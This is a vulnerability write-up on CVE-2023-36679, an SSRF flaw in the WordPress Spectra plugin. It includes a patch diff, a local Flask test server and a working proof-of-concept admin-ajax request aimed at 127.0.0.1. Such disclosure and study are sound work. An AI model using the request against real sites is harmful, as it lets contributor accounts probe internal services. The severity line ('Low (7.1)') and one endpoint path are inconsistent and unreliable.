

# CVE-2023-36679 Analysis & POC


<!--more-->

## CVE & Basic Info
A Server Side Request Forgery (SSRF) vulnerability was discovered in the WordPress **Spectra** plugin (previously named **Ultimate Addons for Gutenberg**) affecting versions up to `2.6.6`.

* **CVE ID**: [CVE-2023-36679](https://www.cve.org/CVERecord?id=CVE-2023-36679)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.6.6
* **Patched Versions**: 2.6.7
* **CVSS severity**: Low (7.1)
* **Required Privilege**: Contributor
* **Product**: [WordPress Spectra Plugin](https://wordpress.org/plugins/ultimate-addons-for-gutenberg/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Spectra**: **2.6.6** (vulnerable) and **2.6.7** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff/comparison tool to check and compare differences between the two versions.

## Analysis

### Patch diff

**Vulnerable version**:

```php {title="class-ast-block-templates.php v2.6.6" hl_lines=[2,6,14,21,24,26,28]}
public function template_importer() {	
    if ( ! current_user_can( 'edit_posts' ) ) {
        wp_send_json_error( __( 'You are not allowed to perform this action', 'astra-sites' ) );
    }
    // Verify Nonce.
    check_ajax_referer( 'ast-block-templates-ajax-nonce', '_ajax_nonce' );
    // other logic
    $api_args = apply_filters(
        'ast_block_templates_api_args',
        array(
            'timeout' => 15,
        )
    );
    $api_uri = ( isset( $_REQUEST['api_uri'] ) ) ? esc_url_raw( $_REQUEST['api_uri'] ) : '';
    $request_params = apply_filters(
        'ast_block_templates_api_params',
        array(
            '_fields' => 'original_content',
        )
    );
    $demo_api_uri = esc_url_raw( add_query_arg( $request_params, $api_uri ) );

    // API Call.
    $response = wp_remote_get( $demo_api_uri, $api_args );
    // other logic
    $data = json_decode( wp_remote_retrieve_body( $response ), true );

    wp_send_json_success( $data['original_content'] );
}
```

In version 2.6.6, the `template_importer()` function takes the `api_uri` parameter directly from `$_REQUEST` and uses that value to send an HTTP request via `wp_remote_get()`:

Because there is no validation or source restriction, an attacker can supply an arbitrary URL to force the server to make requests to internal addresses. This creates a **Server-Side Request Forgery (SSRF)** vulnerability.

**Patched version**:

```php {title="class-ast-block-templates.php v2.6.7" hl_lines=[2,6,14,15,16,23,26,28,30]}
public function template_importer() {	
    if ( ! current_user_can( 'edit_posts' ) ) {
        wp_send_json_error( __( 'You are not allowed to perform this action', 'astra-sites' ) );
    }
    // Verify Nonce.
    check_ajax_referer( 'ast-block-templates-ajax-nonce', '_ajax_nonce' );
    // other logic
    $api_args = apply_filters(
        'ast_block_templates_api_args',
        array(
            'timeout' => 15,
        )
    );
    $block_id   = isset( $_REQUEST['id'] ) ? absint( $_REQUEST['id'] ) : '';
    $block_data = get_option( 'ast-block-templates_data-' . $block_id );
    $api_uri = null !== $block_data ? $block_data->{'astra-page-api-url'} : '';
    $request_params = apply_filters(
        'ast_block_templates_api_params',
        array(
            '_fields' => 'original_content',
        )
    );
    $demo_api_uri = esc_url_raw( add_query_arg( $request_params, $api_uri ) );

    // API Call.
    $response = wp_remote_get( $demo_api_uri, $api_args );
    // other logic
    $data = json_decode( wp_remote_retrieve_body( $response ), true );

    wp_send_json_success( $data['original_content'] );
}
```

The patch removed taking a URL directly from user input. Instead, the code only accepts a **block ID** via `$_REQUEST['id']` and retrieves the corresponding URL from the database (`wp_options`) under the key `ast-block-templates_data-{id}`:

Thus, the URL is constrained to records managed by the system, eliminating the ability for a user to provide an arbitrary path. This mechanism prevents SSRF and increases safety when performing server-side API calls.

### Vulnerable Code 

`template_importer()` requires the user to have privileges from **Contributor** or higher

```php
if ( ! current_user_can( 'edit_posts' ) ) {
    wp_send_json_error( __( 'You are not allowed to perform this action', 'astra-sites' ) );
}
```

CSRF protection is implemented with a nonce named `_ajax_nonce`; if the nonce does not match, the logic exits and returns an error.

```php
check_ajax_referer( 'ast-block-templates-ajax-nonce', '_ajax_nonce' );
```

> [!TIP]
> The disclosed vulnerability requires **Contributor** privileges, so the `_ajax_nonce` value is very likely present in the Admin UI code.
> For vulnerabilities tied to Contributor privileges and post creation features, you can look for `_ajax_nonce` by inspecting the post creation/edit UI in the admin (or searching the script/HTML generated by the Admin pages).



After verification steps, the code takes the `api_uri` value directly from `$_REQUEST`, runs it through `esc_url_raw()`, appends query parameters, and performs an HTTP request using `wp_remote_get()`

```php
$api_uri = isset( $_REQUEST['api_uri'] ) ? esc_url_raw( $_REQUEST['api_uri'] ) : '';
$request_params = array( '_fields' => 'original_content' );
$demo_api_uri = esc_url_raw( add_query_arg( $request_params, $api_uri ) );

$response = wp_remote_get( $demo_api_uri, $api_args );
```

Finally it decodes the response and returns JSON with the `original_content` key

```php
$data = json_decode( wp_remote_retrieve_body( $response ), true );
wp_send_json_success( $data['original_content'] );
```

`template_importer()` is registered as the callback for the action hook:

```php
add_action( 'wp_ajax_ast_block_templates_importer', array( $this, 'template_importer' ) );
```

Meaning, when accessing the endpoint `/wp-admin/admin-ajax/php` with `action=ast_block_templates_importer` the `template_importer()` function is invoked.
## Exploit

### Local Server
Create a simple local service with python

```py
from flask import Flask, jsonify, request, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/test')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "original_content": "XNXX.COM"
}
```

### Proof of Concept (PoC)

1. Create a post and obtain the `_ajax_nonce`
2. Send a request with `api_uri` pointing to the local service `http://127.0.0.1:8001/test` as a **Contributor** user

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: application/json, text/javascript, */*; q=0.01
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=con%7C1761196421%7CqXmKZUf4pSlgQ1P9tEQA71pnVWLNanpuqdHLXAZXyFJ%7Cf3dc677b2e483f598ad00a36fbd2f18ed1ed5015b39fc2df533aeb573a8dc3fd; wp-settings-time-2=1761027443; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1761196421%7CqXmKZUf4pSlgQ1P9tEQA71pnVWLNanpuqdHLXAZXyFJ%7C1e8333233a2233576e988302d4f19d5c92470de4cc2bf4c1e31fb65788a44d35

action=ast_block_templates_importer&_ajax_nonce=3ef4c6d6df&api_uri=http://127.0.0.1:8001/test
```

**Result**:


### Conclusion
Version `≤ 2.6.6` of the `Spectra (Ultimate Addons for Gutenberg)` plugin contains an SSRF vulnerability due to using `wp_remote_get()` with a URL supplied by the user without restricting or validating its source.
This allows an account with **Contributor** privileges to force the WordPress server to make requests to internal addresses.

### Key takeaways

* Do not trust URLs from the client; only use data available on the server.
* Prefer **`wp_safe_remote_get()`** over `wp_remote_get()`.
* Check HTTP response (status, MIME, content).
* Restrict who can make request calls to the minimum required role.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress Spectra Plugin <= 2.6.6 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/ultimate-addons-for-gutenberg/vulnerability/wordpress-spectra-plugin-2-6-6-server-side-request-forgery-ssrf-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-23-cve-2023-36679/  

